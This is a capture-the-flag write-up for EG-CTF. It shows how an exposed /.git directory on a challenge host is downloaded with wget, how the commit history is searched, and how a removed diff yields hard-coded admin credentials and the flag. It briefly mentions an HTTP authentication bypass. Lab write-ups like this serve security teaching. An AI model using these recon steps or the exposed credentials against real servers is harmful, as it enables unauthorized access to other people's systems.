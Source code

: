 # EG-CTF
# Write-Up
# 1-Tamp3rat0r
I have check the site and They asked me about username and password and by guess seems like http authentication bypass
and worked. check Tamp3rat0r.py
# 2-Hold Up
i test it with DWP and i found /.git path working and i download the directory
wget --recursive --no-parent http://172.105.76.128/.git/
root@cloudshell:~$ ls
172.105.76.128  
root@cloudshell:~$ cd 172.105.76.128/
root@cloudshell:~/172.105.76.128$ ls -a
.  ..  .git
root@cloudshell:~/172.105.76.128$ cd .git/
root@cloudshell:~/172.105.76.128/.git$ ls
branches        config       HEAD   index       index.html?C=D;O=A  index.html?C=M;O=A  index.html?C=N;O=A  index.html?C=S;O=A  info  objects
COMMIT_EDITMSG  description  hooks  index.html  index.html?C=D;O=D  index.html?C=M;O=D  index.html?C=N;O=D  index.html?C=S;O=D  logs  refs
// let's check the commits
root@cloudshell:~/172.105.76.128/.git$ git reflog
2e3e1a8 HEAD@{0}: commit: Refining
89329fa HEAD@{1}: commit: NewFeature
dfecece HEAD@{2}: commit: Addinfo
b032cf8 HEAD@{3}: commit: Disable
5b9e491 HEAD@{4}: commit: DelCr
457168f HEAD@{5}: commit: AddUsetting
b55d897 HEAD@{6}: commit: editconf
70ae358 HEAD@{7}: commit (initial): initials
// i have check this commits one by one and i found 
root@cloudshell:~/172.105.76.128/.git$git show 2e3e1a8
commit 2e3e1a8c124768ecbb31e92d5c070003924b9254
Author: Ben ALaa <a.alaa@egcert.eg>
Date:   Thu Nov 14 23:18:26 2019 +0100

    Refining

diff --git a/S3cR3tPaTh/config.php b/S3cR3tPaTh/config.php
index 3d7f801..706d93b 100644
--- a/S3cR3tPaTh/config.php
+++ b/S3cR3tPaTh/config.php
@@ -420,15 +420,6 @@ $CONFIG = array(
 'overwriteprotocol' => '',

 /**
- * Override webroot
- * ownCloud attempts to detect the webroot for generating URLs automatically.
- * For example, if `www.example.com/owncloud` is the URL pointing to the
- * ownCloud instance, the webroot is `/owncloud`. When proxies are in use, it
- * may be difficult for ownCloud to detect this parameter, resulting in invalid URLs.
- */
-'overwritewebroot' => '',
-
-/**
  * Override condition
  * This option allows you to define a manual override condition as a regular
  * expression for the remote IP address. The keys `overwritewebroot`,
// this show us the path of admin log in is /S3cR3tPaTh/
root@cloudshell:~/172.105.76.128/.git$git show 5b9e491
commit 5b9e491802d53d6af1ef25206ccb0765b64a248b
Author: Ben ALaa <a.alaa@egcert.eg>
Date:   Thu Nov 14 23:15:11 2019 +0100

    DelCr

diff --git a/S3cR3tPaTh/config.php b/S3cR3tPaTh/config.php
index 46ed4f3..72e9842 100644
--- a/S3cR3tPaTh/config.php
+++ b/S3cR3tPaTh/config.php
@@ -194,7 +194,7 @@ $CONFIG = array(
 'knowledgebaseenabled' => true,

 /**
- * Enables or disables avatars or user profile photos
+ /* Enables or disables avatars or user profile photos
  * `true` enables avatars, or user profile photos, `false` disables them.
  * These appear on the User page, on user's Personal pages and are used by some apps
  * (contacts, mail, etc).
@@ -469,15 +469,7 @@ $CONFIG = array(



-
-/**
-* Admin Credentials
-**/
-
-
-'Admin_Login' => 'Administrator'
-'Admin_Password' => 'FN3ym@bZNaF&'
-
+/** Delete Admin creds. **/


 /**
/////////////////////////////////////////////////////////////////
admin = Administrator
password = FN3ym@bZNaF&
after i try it #flag : EGCTF{Co0o0o0L_I_g0t_Th3_R3p0}
sorry if something it's not clear
//////////////////////////////////////////////////////////////////
